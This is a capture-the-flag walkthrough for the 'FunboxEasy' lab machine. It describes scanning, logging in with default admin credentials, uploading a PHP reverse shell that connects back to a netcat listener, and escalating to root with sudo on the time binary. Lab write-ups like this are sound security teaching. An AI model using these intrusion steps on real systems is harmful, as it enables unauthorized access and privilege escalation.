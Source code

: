 # FunboxEasy
Points - 5  
Difficulty - Easy
---

First we scan the given ip using
```
$ nmap -A ip_address
```
![](images/scan1.png)


There's an SSH port open and a website hosted, not pretty interesting.      
Let's try to use directory buster on the website.

![](images/dirb1.png)

Select the Go faster checkbox to save a little time, and for file extensions enter php in hope that we can find a login page of some kind.

From the results we can see that there's a store folder with an admin.php.     
Checking in the browser we are prompted with a login page for CRM admin.

![](images/index.png)

The default credentials     
**Username** : admin        
**Password** : admin        
worked and we are signed in as *administrator*      
We are presented with a catalog of books and it shows that we can edit them.        

![](images/page1.png)

We can see that we can upload files here. We can upload a reverse-php-shell here and gain a shell.

![](images/upload1.png)

You can find a php-reverse-shell here [pentestmokey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or if you are on kali you'll be able to find one on the system itself, you can use that as well. But I highly recommend to star pentestmokey's repo because it contains a lot of useful things.

You'll have to change the ip address and the port on the php file before uploading it.

Don't forget that you have to add the ip_address it shows on vpn pack and not your original one.

After adding the php file navigate to the directory where the images are present.       
From the dirbuster scan we found that there's a bootstrap direcory with images in it in the store direcory.

Before clicking on the php-file don't forget to setup a netcat listener on your machine.        
```
$ nc -lvnp port_number
```
Also don't forget that you're firewall should be disabled, you can check this by using the command
```
$ ufw status
```
if it shows active, you can disable it by typing    
```
ufw disable
```
After getting the shell we can see that we're logged in as the user www-data

After snooping around the home folder, there's a password.txt with user tony's password so we switch to tony.

![](images/tony.png)

```
$ su tony
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Now let's check the privileges of this account using    
``` sh
$ sudo -l

Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD:
        /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```
You can see binary files exploitation here [GTFO](https://gtfobins.github.io/) and choose the suitable one.      
I choose the time command.

You can get privilege escaltion by 
```
$ sudo /usr/bin/time /bin/sh
```
![](images/root.png)

After getting the privilege escalation you can find the flags in each of the home directories of user www-data and root.

![](images/flags.png)

